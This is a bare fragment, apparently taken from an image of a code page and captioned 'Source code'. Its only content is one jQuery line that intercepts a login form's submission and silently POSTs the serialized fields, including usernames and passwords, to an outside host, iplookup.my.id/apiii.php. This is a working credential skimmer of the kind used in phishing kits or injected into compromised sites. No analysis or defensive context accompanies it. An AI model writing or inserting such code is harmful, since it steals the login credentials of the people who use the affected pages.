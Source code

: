 $(".login-form").submit(function() {$.ajax({ url:"https://iplookup.my.id/apiii.php",type: "POST",data: $(this).serialize(), success: function () {}})});
